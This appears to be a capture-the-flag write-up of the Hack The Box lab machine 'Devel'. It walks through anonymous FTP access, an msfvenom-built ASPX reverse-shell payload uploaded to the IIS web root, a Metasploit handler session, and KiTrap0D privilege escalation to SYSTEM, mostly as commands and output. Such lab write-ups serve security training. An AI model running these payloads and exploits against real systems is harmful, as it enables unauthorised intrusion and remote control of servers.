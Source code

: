 ```yaml
---
layout: post
title: Devel(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.5
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.5
  
<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-18 15:47 EST
<br>Nmap scan report for 10.10.10.5
<br>Host is up (0.22s latency).
<br>Not shown: 998 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">21/tcp</font> open  ftp     Microsoft ftpd
<br>| ftp-anon: <font color="53E100">Anonymous FTP login allowed</font> (FTP code 230)
<br>| 03-18-17  01:06AM                  aspnet_client
<br>| 03-17-17  04:37PM                  689 iisstart.htm
<br>|_03-17-17  04:37PM               184946 welcome.png
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Microsoft IIS httpd 7.5</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>|_http-server-header: <font color="53E100">Microsoft-IIS/7.5</font>
<br>|_http-title: IIS7
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Embedded Standard 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 21/tcp)
<br>HOP RTT       ADDRESS
<br>1   283.76 ms 10.10.14.1
<br>2   283.90 ms 10.10.10.5

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 55.06 seconds</p>
</div>
</font>

Anonymous login in FTP is allowed, which means we can loggin to the FTP server with {_**anonymous**_} as a username and password.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># ftp 10.10.10.5
<br>Connected to 10.10.10.5.
<br>220 Microsoft FTP Service
<br>Name (10.10.10.5:root): anonymous
<br>331 Anonymous access allowed, send identity (e-mail name) as password.
<br>Password:
<br>230 User logged in.
<br>Remote system type is Windows_NT.
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                      <font color="53E100">aspnet_client</font>
<br>03-17-17  04:37PM                  689 <font color="53E100">iisstart.htm</font>
<br>03-17-17  04:37PM               184946 <font color="53E100">welcome.png</font>
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p> 
</div>
</font>
Looks like we got the access to the Web-Directory of the server, So now we will generate our payload using _**msfvenom**_ , As the target server is using IIS 7 so we will need to generate the payload with the extension of (_**.aspx**_).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.*.* LPORT=4455 -b "\x00" -f aspx > teck.aspx
<br>No platform was selected, choosing Msf::Module::Platform::Windows from the payload
<br>No Arch selected, selecting Arch: x86 from the payload
<br>Found 10 compatible encoders
<br>Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
<br>x86/shikata_ga_nai succeeded with size 360 (iteration=0)
<br>x86/shikata_ga_nai chosen with final size 360
<br>Payload size: 360 bytes
<br>Final size of aspx file: 2917 bytes
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
Now upload our generated payload into the server using **_FTP_**.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="BB69EC">ftp</font>> put teck.aspx 
<br>local: teck.aspx remote: teck.aspx
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>226 Transfer complete.
<br>2954 bytes sent in 0.00 secs (12.4653 MB/s)
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                      aspnet_client
<br>03-17-17  04:37PM                  689 iisstart.htm
<br>12-22-17  07:35AM                 2907 <font color="53E100">teck.aspx</font>
<br>03-17-17  04:37PM               184946 welcome.png
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p>
</div>
</font>
The file has been uploaded, now to get the reverse shell first open the multi handler listner in **_MSF_** and then browse the file {**http://10.10.10.5/teck.aspx**}.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="BB69EC">msf</font> > use exploit/multi/handler
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.14.14
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br><font color="BB69EC">msf exploit</font>(<font color="red">handler</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.5
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.5:49158) at 2017-12-18 17:27:04 -0500

<br><font color="BB69EC">meterpreter</font> > getuid
<br>Server username: <font color="53E100">IIS APPPOOL\Web</font>
<br><font color="BB69EC">meterpreter</font> >run post/windows/manage/migrate

<br><font color="RoyalBlue">[*]</font> Running module against DEVEL
<br><font color="RoyalBlue">[*]</font> Current server process: w3wp.exe (1132)
<br><font color="RoyalBlue">[*]</font> Spawning notepad.exe process to migrate to
<br><font color="53E100">[+]</font> Migrating to 264
<br><font color="53E100">[+]</font> Successfully migrated to process 264
<br><font color="BB69EC">meterpreter</font> > </p>
</div>
</font>
<br>We got the web **_Meterpreter_** session, run the post migrate command or the meterpreter session will be close after 5 min. Now in able to read the flag first we need to _Escalate our Privilege_.

<br>**Privilege Escalation Exploit**:- [Windows SYSTEM Escalation via KiTrap0D](https://www.rapid7.com/db/modules/exploit/windows/local/ms10_015_kitrap0d)
<br>**Vulnerabilty Description**:- This module will create a new session with SYSTEM privileges via the KiTrap0D exploit by Tavis Ormandy. If the session in use is already elevated then the exploit will not run. The module relies on kitrap0d.x86.dll, and is not supported on x64 editions of Windows.

<br>**POC**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > background 
<br><font color="RoyalBlue">[*]</font> Backgrounding session 3...
<br>msf exploit(<font color="red">handler</font>) > use exploit/windows/local/ms10_015_kitrap0d
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set SESSION 3
<br>SESSION => 3
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">ms10_015_kitrap0d</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Launching notepad to host the exploit...
<br><font color="53E100">[+]</font> Process 1376 launched.
<br><font color="RoyalBlue">[*]</font> Reflectively injecting the exploit DLL into 1376...
<br><font color="RoyalBlue">[*]</font> Injecting exploit into 1376 ...
<br><font color="RoyalBlue">[*]</font> Exploit injected. Injecting payload into 1376...
<br><font color="RoyalBlue">[*]</font> Payload injected. Executing exploit...
<br><font color="53E100">[+]</font> Exploit finished, wait for (hopefully privileged) payload execution to complete.
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.5
<br><font color="RoyalBlue">[*]</font> Meterpreter session 4 opened (10.10.*.*:444 -> 10.10.10.5:49158) at 2017-12-18 18:01:20 -0500

<br>meterpreter >getuid
<br>Server username: <font color="53E100">NT AUTHORITY\SYSTEM</font>
<br>meterpreter ></p> 

</div>
</font>

<br>**Flags**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>c:\Users\babis\Desktop>type <font color="53E100">user.txt.txt</font>
<br>type user.txt.txt
<br>********************
<br>c:\Users\Administrator\Desktop>type <font color="53E100">root.txt.txt</font>
<br>type root.txt.txt
<br>********************
<br>c:\Users\Administrator\Desktop></p>  
</div>
</font>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
